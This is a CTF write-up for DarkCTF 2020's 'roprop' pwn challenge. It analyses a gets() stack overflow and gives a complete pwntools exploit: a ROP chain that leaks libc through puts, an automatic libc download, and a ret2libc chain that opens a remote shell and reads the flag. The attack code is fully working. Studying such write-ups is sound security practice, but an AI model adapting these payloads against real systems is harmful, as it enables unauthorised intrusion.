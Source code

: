 # DarkCTF 2020

## pwn/roprop

> 171 solves / 313 points
>
> Author: gr4n173
>
> This is from the back Solar Designer times where you require rope to climb and get anything you want.
>
> `nc pwn.darkarmy.xyz 5002`
> 
> [roprop](roprop)

Tags: _pwn_ _x86-64_ _remote-shell_ _rop_ _bof_


## Summary

`gets`.

> This is virtually the same as [_return-to-what_](https://github.com/datajerk/ctf-write-ups/tree/master/downunderctf2020/return_to_what).


## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

No shellcode, but that's about it.


### Decompile with Ghidra


```c
undefined8 main(void)
{
  char local_58 [80];
  
  nvm_init();
  nvm_timeout();
  puts("Welcome to the Solar Designer World.\n");
  puts("He have got something for you since late 19\'s.\n");
  gets(local_58);
  return 0;
}
```

`gets` vulnerability.  Easy ROP since no canary or PIE.  To get to the return address send `0x58` bytes (gotta love how Ghidra tells you that, i.e. `local_58`).


## Exploit

### Setup

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./roprop')
context.log_level = 'INFO'

if not args.REMOTE:
    context.log_file = 'local.log'
    libc = binary.libc
    p = process(binary.path)
else:
    context.log_file = 'remote.log'
    p = remote('roprop.darkarmy.xyz', 5002)
```

Boilerplate pwntools.  `context.binary` is important for ROP.  Also notice there's no `libc` set for `REMOTE` since we have to find it first.


### Leak libc

```python
rop = ROP([binary])
pop_rdi = rop.find_gadget(['pop rdi','ret'])[0]

payload  = 0x58 * b'A'
payload += p64(pop_rdi)
payload += p64(binary.got.puts)
payload += p64(binary.plt.puts)
payload += p64(binary.sym.main)

p.sendlineafter('He have got something for you since late 19\'s.\n\n',payload)

_ = p.recv(6)
puts = u64(_ + b'\0\0')
log.info('puts: ' + hex(puts))
```

Standard `puts` _putting_ itself out there.  With the `puts` location known we can find the version and base address of libc.  The last part of the payload jumps back to `main` for a second and final pass.


### Find libc

```python
if not 'libc' in locals():
    try:
        import requests
        r = requests.post('https://libc.rip/api/find', json = {'symbols':{'puts':hex(puts)[-3:]}})
        libc_url = r.json()[0]['download_url']
        libc_file = libc_url.split('/')[-1:][0]
        if not os.path.exists(libc_file):
            log.info('getting: ' + libc_url)
            r = requests.get(libc_url, allow_redirects=True)
            open(libc_file,'wb').write(r.content)
    except:
        log.critical('get libc yourself!')
        sys.exit(0)
    libc = ELF(libc_file)

libc.address = puts - libc.sym.puts
log.info('libc.address: ' + hex(libc.address))
```

> Something new I'm experimenting with.

The `if` block will detect and download the correct libc. `libc_url = r.json()[0]['download_url']` needs to be changed if the downloaded libc does not work, just increment the `[0]` until you get the right one.


### Get a shell, get the flag

```python
payload  = 0x58 * b'A'
payload += p64(pop_rdi + 1)
payload += p64(pop_rdi)
payload += p64(libc.search(b'/bin/sh').__next__())
payload += p64(libc.sym.system)

p.sendlineafter('He have got something for you since late 19\'s.\n\n',payload)
p.interactive()
```

Pop a shell, get the flag.

> `p64(pop_rdi + 1)` fixes a stack [alignment issue](https://blog.binpang.me/2019/07/12/stack-alignment/), see [blind-piloting](https://github.com/datajerk/ctf-write-ups/tree/master/b01lersctf2020/blind-piloting) for a lengthy example.

Output:

```
# ./exploit.py REMOTE=1
[*] '/pwd/datajerk/darkctf2020/roprop/roprop'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to roprop.darkarmy.xyz on port 5002: Done
[*] Loaded 14 cached gadgets for './roprop'
[*] puts: 0x7f17891cda30
[*] getting: https://libc.rip/download/libc6_2.27-3ubuntu1.2_amd64.so
[*] '/pwd/datajerk/darkctf2020/roprop/libc6_2.27-3ubuntu1.2_amd64.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] libc.address: 0x7f178914d000
[*] Switching to interactive mode
$ ls -l
total 36
drwxr-x--- 1 0 1000 4096 Sep 25 02:12 bin
drwxr-x--- 1 0 1000 4096 Sep 25 02:12 dev
-rwxr----- 1 0 1000   29 Sep 19 11:19 flag.txt
drwxr-x--- 1 0 1000 4096 Sep 25 02:12 lib
drwxr-x--- 1 0 1000 4096 Sep 25 02:12 lib32
drwxr-x--- 1 0 1000 4096 Sep 25 02:12 lib64
-rwxr-x--- 1 0 1000 8872 Sep 21 17:50 roprop
$ cat flag.txt
darkCTF{y0u_r0p_r0p_4nd_w0n}
```
